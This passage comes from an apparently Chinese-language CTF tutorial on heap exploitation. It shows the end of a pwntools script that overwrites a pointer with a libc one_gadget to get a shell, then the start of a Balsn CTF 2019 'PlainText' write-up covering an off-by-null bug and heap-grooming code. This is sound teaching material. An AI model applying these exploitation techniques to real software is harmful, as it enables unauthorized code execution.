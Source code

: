```python

    one_gadget = libc_base + 0x4526a
    put('attack', 0x68, 'a' * 3 + p64(one_gadget))

    p.sendline('DEL') # malloc(8) triggers one_gadget

    p.interactive()

if __name__ == '__main__':
    main()
```
## 實例 3 : Balsn_CTF_2019-PlainText
### 漏洞利用分析

程序的流程比較清晰簡單，在 add 函數中，存在明顯的 off-by-null。

![](./figure/add-function.png)

而 free 中對被 free 的指針進行了置空，導致無法直接 show，而程序對我們的輸入末尾附加 `\x00`，也無法使用釋放再申請的方法，leak 比較困難。

分析結束。接下來進行利用

爲了調試方便，建議先關閉 aslr。

一開始的時候 bin 中非常的雜亂，先把這些亂七八糟的東西申請出來

```python
for i in range(16):
    add(0x10,'fill')

for i in range(16):
    add(0x60,'fill')

for i in range(9):
    add(0x70,'fill')

for i in range(5):
    add(0xC0,'fill')

for i in range(2):
    add(0xE0,'fill')

add(0x170,'fill')
add(0x190,'fill')
# 49
```

由於我們部分覆寫的時候會被附加一個 `\x00`，所以需要調整堆地址，爲了調試方便，我選擇這樣調整，具體原因馬上說

```python
add(0x2A50,'addralign') # 50
```
